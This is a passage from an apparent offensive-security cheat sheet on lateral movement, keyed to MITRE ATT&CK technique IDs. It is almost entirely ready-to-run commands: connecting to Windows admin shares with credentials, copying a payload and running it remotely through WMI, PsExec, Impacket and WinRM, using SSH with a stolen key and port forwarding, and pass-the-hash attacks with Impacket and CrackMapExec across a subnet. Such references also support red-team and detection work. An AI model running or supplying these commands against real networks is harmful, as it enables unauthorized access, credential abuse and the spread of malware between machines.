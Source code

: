 ### 2. SMB/Windows Admin Shares (T1021.002)
```powershell
# Access admin share
net use \\192.168.1.100\C$ /user:DOMAIN\admin password

# Copy payload
copy payload.exe \\192.168.1.100\C$\Windows\Temp\

# Execute remotely via WMI
wmic /node:192.168.1.100 process call create "C:\Windows\Temp\payload.exe"
```

### 3. PsExec (T1021.002)
```bash
# Sysinternals PsExec
psexec.exe \\192.168.1.100 -u DOMAIN\admin -p password cmd.exe

# Impacket psexec
impacket-psexec DOMAIN/admin:password@192.168.1.100
```

### 4. WinRM (T1021.006)
```powershell
# Enable WinRM
Enable-PSRemoting -Force

# Execute remote command
Invoke-Command -ComputerName 192.168.1.100 -ScriptBlock {whoami}

# Interactive session
Enter-PSSession -ComputerName 192.168.1.100 -Credential (Get-Credential)
```

### 5. SSH (T1021.004)
```bash
# SSH lateral movement
ssh user@192.168.1.100

# With stolen key
ssh -i stolen_key user@192.168.1.100

# Port forwarding
ssh -L 8080:internal-server:80 user@192.168.1.100
```

### 6. Pass-the-Hash (T1550.002)
```bash
# Impacket PTH
impacket-psexec -hashes :NTLMHASH administrator@192.168.1.100

# CrackMapExec PTH
crackmapexec smb 192.168.1.0/24 -u administrator -H NTLMHASH --exec-method smbexec -x whoami
```
